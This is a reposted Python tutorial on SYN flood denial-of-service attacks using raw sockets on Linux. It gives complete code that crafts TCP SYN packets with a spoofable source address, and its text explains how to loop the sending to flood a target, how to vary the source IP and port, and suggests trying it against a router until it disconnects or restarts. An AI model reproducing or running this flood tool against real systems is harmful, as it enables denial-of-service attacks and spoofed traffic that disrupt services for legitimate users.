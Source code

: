 > 转自 <http://www.binarytides.com/syn-flood-program-in-python-using-raw-sockets-linux/>

### Syn flood and raw sockets
***

A syn flood program sends out large number of tcp syn packets to a remote host on a particular port number. Syn packets are intended to initiate a tcp connection. However if a large number of syn packets are send without any purpose, then then it would consume a lot of resources like memory on the remote system. This concept is used in denial of service (dos) attacks. It is like jamming the networking path of a remote machine or device. This results in the device being unable to serve actual requests from legitimate users.

In this article we are going to write a very simple syn flood program in python. A syn flood program works by creating syn packets which need raw socket support. Linux has raw socket support natively and hence the program shown in this example shall work only on a linux system even though python itself is platform independant. This is because the underlying socket libraries are different on windows and linux.

### Code
***

The theory behind the code is quite simple. Just create a raw socket and a tcp syn packet and send the packet over the raw socket. That is all that needs to be done.

Here is the program

	'''
		Syn flood program in python using raw sockets (Linux)
		
		Silver Moon (m00n.silv3r@gmail.com)
	'''

	# some imports
	import socket, sys
	from struct import *

	# checksum functions needed for calculation checksum
	def checksum(msg):
		s = 0
		# loop taking 2 characters at a time
		for i in range(0, len(msg), 2):
			w = (ord(msg[i]) << 8) + (ord(msg[i+1]) )
			s = s + w
		
		s = (s>>16) + (s & 0xffff);
		#s = s + (s >> 16);
		#complement and mask to 4 byte short
		s = ~s & 0xffff
		
		return s

	#create a raw socket
	try:
		s = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_TCP)
	except socket.error , msg:
		print 'Socket could not be created. Error Code : ' + str(msg[0]) + ' Message ' + msg[1]
		sys.exit()

	# tell kernel not to put in headers, since we are providing it
	s.setsockopt(socket.IPPROTO_IP, socket.IP_HDRINCL, 1)
		
	# now start constructing the packet
	packet = '';

	source_ip = '192.168.1.101'
	dest_ip = '192.168.1.1'	# or socket.gethostbyname('www.google.com')

	# ip header fields
	ihl = 5
	version = 4
	tos = 0
	tot_len = 20 + 20	# python seems to correctly fill the total length, dont know how ??
	id = 54321	#Id of this packet
	frag_off = 0
	ttl = 255
	protocol = socket.IPPROTO_TCP
	check = 10	# python seems to correctly fill the checksum
	saddr = socket.inet_aton ( source_ip )	#Spoof the source ip address if you want to
	daddr = socket.inet_aton ( dest_ip )

	ihl_version = (version << 4) + ihl

	# the ! in the pack format string means network order
	ip_header = pack('!BBHHHBBH4s4s' , ihl_version, tos, tot_len, id, frag_off, ttl, protocol, check, saddr, daddr)

	# tcp header fields
	source = 1234	# source port
	dest = 80	# destination port
	seq = 0
	ack_seq = 0
	doff = 5	#4 bit field, size of tcp header, 5 * 4 = 20 bytes
	#tcp flags
	fin = 0
	syn = 1
	rst = 0
	psh = 0
	ack = 0
	urg = 0
	window = socket.htons (5840)	#	maximum allowed window size
	check = 0
	urg_ptr = 0

	offset_res = (doff << 4) + 0
	tcp_flags = fin + (syn << 1) + (rst << 2) + (psh <<3) + (ack << 4) + (urg << 5)

	# the ! in the pack format string means network order
	tcp_header = pack('!HHLLBBHHH' , source, dest, seq, ack_seq, offset_res, tcp_flags,  window, check, urg_ptr)

	# pseudo header fields
	source_address = socket.inet_aton( source_ip )
	dest_address = socket.inet_aton(dest_ip)
	placeholder = 0
	protocol = socket.IPPROTO_TCP
	tcp_length = len(tcp_header)

	psh = pack('!4s4sBBH' , source_address , dest_address , placeholder , protocol , tcp_length);
	psh = psh + tcp_header;

	tcp_checksum = checksum(psh)

	# make the tcp header again and fill the correct checksum
	tcp_header = pack('!HHLLBBHHH' , source, dest, seq, ack_seq, offset_res, tcp_flags,  window, tcp_checksum , urg_ptr)

	# final full packet - syn packets dont have any data
	packet = ip_header + tcp_header

	#Send the packet finally - the port specified has no effect
	s.sendto(packet, (dest_ip , 0 ))	# put this in a loop if you want to flood the target

	#put the above line in a loop like while 1: if you want to flood

The above program has to be run with root privileges. Raw sockets need root privileges. On ubuntu prefix sudo when running the script.

	$ sudo python tcp_syn.py

Also note that if a firewall like firestarter is running then it might block the syn packets from being delivered. Use a packet sniffer like wireshark to check that the packet was generated and transmitted properly.

Many more things can be added to the above program. Put the sendto in a loop and it would send out huge number of syn packets, flooding the target system. Also try to change the source ip and source port in each packet in a loop. For this the pseudo header and tcp header checksum needs to be recalculated everytime.

The best thing to try this program on would be your LAN router. If might get disconnected or even restart itself if it is unable to handle a syn flood attack. 

